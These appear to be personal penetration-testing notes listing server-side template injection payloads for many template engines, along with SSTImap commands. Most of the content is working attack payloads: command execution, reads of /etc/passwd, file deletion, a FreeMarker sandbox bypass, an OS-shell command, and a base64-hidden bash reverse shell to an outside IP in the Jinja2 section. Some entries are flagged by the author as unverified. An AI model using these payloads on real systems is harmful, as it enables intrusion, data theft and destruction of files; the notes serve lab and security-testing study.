 #php #nodejs #python
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

1. **Jinja2 (python)/Twig (PHP)** - `{{7*'7'}}`
2. **Jade/Pug** (Node)
	* `#{7 * 7}`
3. Smarty (PHP) - `{'Hello'|upper}`
4. Pug (node)
	* `#{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}`
5. Mako (python)
	* ${7 * 7}
6. handlebars (node)
	* `{{7+7}}`

##### Automation
```bash
git clone https://github.com/vladko312/SSTImap.git

python3 sstimap.py -X POST -u 'http://ssti.thm:8002/mako/' -d 'page='

# Download remote file
python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd'

# Execute remote command
python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id

# OS shell
python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell
```

#### Apache FreeMarker #java 
```marker
<#assign rt = "freemarker.template.utility.Execute"?new()>
${rt("rm -rf /something")}
```
Detect version:
```
${.version}
```
Sandbox bypass (works <= v2.39):
```
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```
Do not forget to replace `article` with available entity.

#### Mako #python 
```mako
<%
	import os
	x=os.popen('id').read()
%>
${x}
```
// what the fuck is ${x} ?
// not sure if it works

#### Tornado #python 
```tornado
user.name}}{%25import+os%25}{{os.system('rm+/home/carlos/morale.txt')}}
```

#### Twig
[[SSTI twig]]
```twig
{{['id',""]|sort('passthru')}}

{{ _self }}

{{ "/etc/passwd"|file_excerpt(1,-1) }}

{{ ['id'] | filter('system') }}
```

#### [[ERB]]  #ruby
```ruby
<%= eval('system("whoami")') %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
<%= File.read("/etc/passwd") %>
```
#### [[jinja]]
```jinja2
{{ config.items() }}

{{ self.__init__.__globals__.__builtins__ }}

{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("ls")}}

{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}YmFzaCAtaSA+JiAvZG
V2L3RjcC8xMC4xMC4xNC4yMy80NDQ0IDA+JjE=${IFS}|base64${IFS}-d|bash').read()}}
```

# html/templates #go
https://www.onsecurity.io/blog/go-ssti-method-research/
someFunction is a function in current scope that reads and returns content of a file
```go
{{.someFunction "/flag.txt"}}
```

#### handlebars #nodejs 
Exploit:
```handlebars
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

##### Identification guide
![[identify SSTI.png]]